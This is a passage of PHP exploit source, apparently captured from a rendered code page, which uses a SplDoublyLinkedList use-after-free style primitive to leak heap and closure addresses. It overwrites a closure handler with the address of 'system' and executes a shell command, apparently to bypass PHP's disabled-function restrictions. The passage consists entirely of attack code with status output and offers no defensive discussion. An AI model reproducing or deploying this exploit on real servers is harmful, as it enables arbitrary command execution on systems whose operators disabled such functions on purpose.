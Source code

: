 ```php
    }
}

function bypass($elementAddress, &$a) {
    global $s;
    if (!$closureChunkAddress = getClosureChunk($a, $elementAddress)) {
        die("[!]Get Closure Chunk Address Failed");
    }
    $closure_object = leak($a, $closureChunkAddress + 0x18);
    echo "[+]Closure Object: " . dechex($closure_object) . "\n";
    $closure_handlers = leak($a, $closure_object + 0x18);
    echo "[+]Closure Handler: " . dechex($closure_handlers) . "\n";
    if(!($system_address = getSystem($a, $closure_handlers))) {
        die("[!]Couldn't determine system address");
    }
    echo "[+]Find system's handler: " . dechex($system_address) . "\n";
    i2s($a, 0x08, 0x506, 7);
    for ($i = 0;$i < (0x130 / 0x08);$i++) {
        $data = leak($a, $closure_object + 0x08 * $i);
        i2s($a, 0x00, $closure_object + 0x30);
        i2s($s -> current(), 0x08 * $i + 0x100, $data);
    }
    i2s($a, 0x00, $closure_object + 0x30);
    i2s($s -> current(), 0x20, $system_address);
    i2s($a, 0x00, $closure_object);
    i2s($a, 0x08, 0x108, 7);
    echo "[+]Executing command: \n";
    ($s -> current())("php -v");
}

function canRead($maps, &$a) {
    global $s;
    if (!$chunkAddress = getPHPChunk($maps)) {
        die("[!]Get PHP Chunk Address Failed");
    }
    i2s($a, 0x08, 0x06, 7);
    if (!$elementAddress = getElement($a, $chunkAddress)) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}

function cantRead(&$a) {
    global $s;
    i2s($a, 0x08, 0x06, 7);
    if (!isset($_GET["test1"]) && !isset($_GET["test2"])) {
        die("[!]Please try to get address of PHP Chunk");
    }
    if (isset($_GET["test1"])) {
        die(dechex(bomb1($a)));
    }
    if (isset($_GET["test2"])) {
        $elementAddress = bomb2($a);
    }
    if (!$elementAddress) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}

$s = new SplDoublyLinkedList();
$s -> push(new Trigger());
$s -> push("Twings");
```